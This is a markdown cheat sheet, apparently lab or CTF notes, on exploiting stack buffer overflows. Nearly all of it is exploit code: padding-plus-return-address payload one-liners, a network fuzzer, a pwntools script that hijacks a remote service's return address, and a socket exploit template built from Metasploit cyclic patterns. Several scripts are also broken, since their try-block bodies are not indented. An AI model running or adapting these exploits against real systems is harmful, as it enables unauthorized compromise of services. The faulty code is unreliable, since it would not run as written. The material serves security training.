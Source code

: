 ```yaml
---
title: Buffer Overflow Attack
desc: An anomaly where a program, while writing data to a buffer, overruns the buffer's boundary and overwrites adjacent memory locations.
tags: [Buffer Overflow, Python, Reverse Engineering]
alts: [Reverse-Engineering]
render_with_liquid: false
---
```


## 1. Python Payload

```python
python3 -c 'print("A" * 32 + "B" * 8 + "C" * 8)'
python3 -c 'print("A" * 32 + "BBBBBBBB" + "\x86\x06\x40\x00\x00\x00\x00\x00")'
# Copy the output string

# Paste the specific field when executing
./example.so
```

<br />

## 2. Check to Crash

1. Creating a Fuzzer using Python

    *fuzzer.py*

    ```python
    #!/usr/bin/env python3

    import socket, time, sys

    ip = "10.0.0.1"

    port = 1337
    timeout = 5
    prefix = "OVERFLOW1 "

    string = prefix + "A" * 100

    while True:
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
        s.settimeout(timeout)
        s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
        s.send(bytes(string, "latin-1"))
        s.recv(1024)
    except:
        print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
        sys.exit(0)
    string += 100 * "A"
    time.sleep(1)
    ```

2. Executing Script

    ```sh
    python3 fuzzer.py
    ```

<br />

## 3. Scanf in Object File

Using **[Pwntools](https://github.com/Gallopsled/pwntools)** with Python.

```python
from pwn import *

# target ip address
host = "10.0.0.1"
# target port
port = 5700

context(terminal = ['tmux', 'new-window'])
# set target executable
binary = context.binary = ELF("./example.so")
context(os = "linux", arch = "amd64")

connect = remote(host, port)
log.info("[+] Starting bufer overflow")
# set the executable output
connect.recvuntil(b"What's your name: ")
log.info("[+] Crafting payload")

payload = b'A' * 40
payload += p64(0x00400686)
log.info("[+] Sending Payload to the remote server")
# Send payload
connect.sendline(payload)
connect.interactive()
```

<br />

## 4. Socket

1. **Generate a cyclic pattern**

    ```sh
    # ex. 2000 bytes
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2000
    ```

    Copy the output string.

2. **Create the Exploit**

    Paste the copied strings (the above cyclic pattern) to the “payload” variable.

    ```python
    import socket

    ip = "10.0.0.1"
    port = 1337

    prefix = "OVERFLOW1 "
    offset = 0
    overflow = "A" * offset
    retn = ""
    padding = ""
    payload = "<PASTE_A_CYCLIC_PATTERN>"
    postfix = ""

    buffer = prefix + overflow + retn + padding + payload + postfix

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(bytes(buffer + "\r\n", "latin-1"))
    print("Done!")
    except:
    print("Could not connect.")
    ```
